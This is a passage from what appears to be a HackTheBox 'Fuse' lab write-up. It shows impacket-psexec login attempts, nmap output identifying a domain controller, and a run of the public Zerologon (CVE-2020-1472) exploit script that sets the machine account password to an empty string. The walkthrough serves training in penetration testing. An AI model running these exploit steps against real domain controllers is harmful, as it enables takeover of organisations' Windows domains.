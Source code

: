 ```
┌──(kali㉿kali)-[~/Desktop/fuse]
└─$ impacket-psexec fabricorp.local/svc-print@10.10.10.193
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

Password:
[*] Requesting shares on 10.10.10.193.....
[-] share 'ADMIN$' is not writable.
[-] share 'C$' is not writable.
[-] share 'NETLOGON' is not writable.
[-] share 'print$' is not writable.
[-] share 'SYSVOL' is not writable.
                                                                                                                      
┌──(kali㉿kali)-[~/Desktop/fuse]
└─$ impacket-psexec fabricorp.local/svc-scan@10.10.10.193
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

Password:
[*] Requesting shares on 10.10.10.193.....
[-] share 'ADMIN$' is not writable.
[-] share 'C$' is not writable.
[-] share 'NETLOGON' is not writable.
[-] share 'print$' is not writable.
[-] share 'SYSVOL' is not writable.
```

### Zerologon Exploit
Another alternative of exploiting this machine would be to use the Zerologon exploit (CVE-2020-1472). From the nmap output, we can see that this is likely to be a domain controller as port 389 is open

```
389/tcp  open  ldap  syn-ack Microsoft Windows Active Directory LDAP (Domain: fabricorp.local, Site: Default-First-Site-Name)
```

Using the ```smb-os-discovery``` script in nmap, we are also able to obtain the NetBios Computer Name, domain name etc of the server

```
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: Fuse
|   NetBIOS computer name: FUSE\x00
|   Domain name: fabricorp.local
|   Forest name: fabricorp.local
|   FQDN: Fuse.fabricorp.local
```

Next, we will download the exploit script from [here](https://github.com/dirkjanm/CVE-2020-1472) and execute the script. Executing the exploit script will then cause the machine password to be set to an empty string

```
┌──(zerologon)─(kali㉿kali)-[~/Desktop/htb_labs/fuse/CVE-2020-1472]
└─$ python3 cve-2020-1472-exploit.py FUSE 10.10.10.193                                            1 ⨯
Performing authentication attempts...
=================================================
Target vulnerable, changing account password to empty string

Result: 0

Exploit complete!
```

